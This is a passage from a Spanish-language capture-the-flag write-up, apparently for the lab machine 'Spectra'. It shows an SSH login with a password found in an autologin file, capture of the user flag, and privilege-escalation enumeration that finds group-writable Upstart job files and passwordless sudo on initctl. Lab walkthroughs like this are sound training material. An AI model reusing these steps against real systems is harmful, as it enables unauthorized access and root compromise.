 Con la contraseña SummerHereWeCome!! encontrada en el archivo de autologin, se intentó establecer una conexión SSH con el usuario katie, uno de los usuarios listados previamente en el sistema. El acceso fue exitoso, otorgando una shell interactiva bajo el usuario katie.
```bash
❯ ssh katie@10.10.10.229
(katie@10.10.10.229) Password: SummerHereWeCome!! 
katie@spectra ~ $ 
```

### Captura flag usuario
Una vez dentro del sistema como el usuario katie, se obtuvo la flag de usuario, confirmando el acceso exitoso y consolidando el control sobre una cuenta con permisos de usuario regular en la máquina.
```bash
katie@spectra ~ $ ls
log  user.txt
katie@spectra ~ $ cat user.txt                                                                                                                              
e89d27fe195e9114ffa72ba8913a6130
```

## Abusing Sudoers Privilege
Mientras se investigaban posibles vectores de escalada de privilegios, se ejecutó un comando para buscar archivos pertenecientes al grupo developers, revelando múltiples archivos en /etc/init/ con permisos de escritura para dicho grupo, así como un archivo ejecutable en /srv/ llamado nodetest.js. Al revisar los privilegios del usuario katie con sudo -l, se descubrió que puede ejecutar el comando /sbin/initctl con sudo sin necesidad de contraseña. Esto es relevante porque initctl permite gestionar servicios basados en Upstart, por lo que se podría aprovechar para cargar uno de los archivos .conf con código malicioso y lograr una ejecución como root.

```bash
katie@spectra ~ $ cd log
katie@spectra ~/log $ ls -l
total 0
katie@spectra ~/log $ find / -group developers 2>/dev/null | xargs ls -l
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test1.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test10.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test2.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test3.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test4.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test5.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test6.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test7.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test8.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test9.conf
-rwxrwxr-x 1 root developers  251 Jun 29  2020 /srv/nodetest.js

/srv:
total 4
-rwxrwxr-x 1 root developers 251 Jun 29  2020 nodetest.js
katie@spectra ~/log $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
katie@spectra ~/log $ ls -l /bin/bash
-rwxr-xr-x 1 root root 551984 Dec 22  2020 /bin/bash
```
